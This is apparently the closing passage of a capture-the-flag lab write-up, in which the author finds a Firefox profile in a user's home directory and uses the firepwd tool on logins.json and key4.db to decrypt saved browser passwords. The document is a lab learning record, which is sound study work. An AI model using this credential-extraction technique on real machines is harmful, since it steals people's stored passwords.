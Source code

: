 ```
```
$ cd /home/charles/
$ ls
$ ls -la
total 24
drw------- 3 charles charles 4096 Apr 23  2024 .
drwxr-xr-x 4 root    root    4096 Mar 10  2024 ..
lrwxrwxrwx 1 root    root       9 Apr 23  2024 .bash_history -> /dev/null
-rw------- 1 charles charles  220 Mar 10  2024 .bash_logout
-rw------- 1 charles charles 3771 Mar 10  2024 .bashrc
drw------- 3 charles charles 4096 Mar 16  2024 .mozilla
-rw------- 1 charles charles  807 Mar 10  2024 .profile
```

a `.mozilla` folder. Traversing some more shows us something more promising.

```
# ls
...
logins.json
logins-backup.json
key4.db
...
```

`logins.json` and `key4.db` can be used in conjunction with [firepwd](https://github.com/lclevy/firepwd) to extract passwords (assuming charles didn't put a master password). Putting firepwd directly in charles' mozilla profile:
```
$ python3 firepwd.py
...
decrypting login/password pairs
https://www.buckinghampalace.com:b'Charles',b'<redacted>'
```

This was a pretty hard challenge overall. It required quite a lot of attention to really find any weak points in contrast to other machines. Not bad.